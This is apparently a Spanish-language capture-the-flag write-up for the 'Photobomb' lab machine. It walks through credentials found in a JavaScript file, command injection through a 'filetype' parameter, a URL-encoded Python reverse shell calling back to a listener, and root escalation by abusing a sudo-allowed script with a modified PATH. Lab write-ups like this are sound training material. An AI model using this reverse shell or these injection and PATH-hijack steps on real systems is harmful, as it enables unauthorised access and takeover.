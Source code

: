 ```yaml
---
title: 'Photobomb'
description: ''
pubDate: 'May 12 2023'
heroImage: ''
slug: 'photobomb'
---
```


Nos metemos a la URL, sin antes cambiar el archivo <i>/etc/hosts</i>.
<img
  src='https://res.cloudinary.com/djc1umong/image/upload/v1665957627/bomb_page_ff29w1.webp'
/>

Vemos un login sencillo al hacer clic en <i>clic here!</i>, pero no contamos con credenciales.

Inspeccionamos el código fuente, y encontramos un archivo <i>photobomb.js</i>, y unos credenciales ahí por si acaso.
<img
  src='https://res.cloudinary.com/djc1umong/image/upload/v1665958090/bomb_view_source_cut_dongsv.webp'
/>
<img
src='https://res.cloudinary.com/djc1umong/image/upload/v1665963151/bomb_creds_cut_wqchuw.webp'
layout="responsive"
/>

Nos encontramos con una <i>impresora de fotos</i>, nos permite descargar con diferentes tamaños de resolucion en formato jpg y png.

Es hora de sacar el <Anchor src='https://portswigger.net/burp'>BurpSuite</Anchor> y ver a fondo que ocurre con esta petición al descargarnos fotos.

<img
src='https://res.cloudinary.com/djc1umong/image/upload/v1665964126/bomb_burp_cut_jqy1g9.webp'
/>

Haciendo pruebas con la herramienta, notamos que el parametro <i>filetype</i> se lo come con patatas, aca ingresamos una nuestra reverse Shell y escuchamos en:

```powershell
$ nc -nlvp 4443
```

<img
src='https://res.cloudinary.com/djc1umong/image/upload/v1666148261/bomb_shell_d2_l9b4zh.webp'
/>

Shell usada para este caso, sin embargo hay muchas más en Google

```python

python3%20-c%20'import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<tun0-IP>",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Una vez dentro proseguimos al <Anchor src="#">obtener una bash</Anchor>

```powershell
sudo -l
```

Matching Defaults entries for wizard on photobomb:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
(root) SETENV: NOPASSWD: /opt/cleanup.sh

```powershell
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
/bin/cat log/photobomb.log > log/photobomb.log.old
/usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

notamos que al final del scrip en <i>/opt/cleanup.sh </i>ejecutamos chown root:root

```powershell
id
uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)
$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
id
uid=0(root) gid=0(root) groups=0(root)

# ROOTED
```

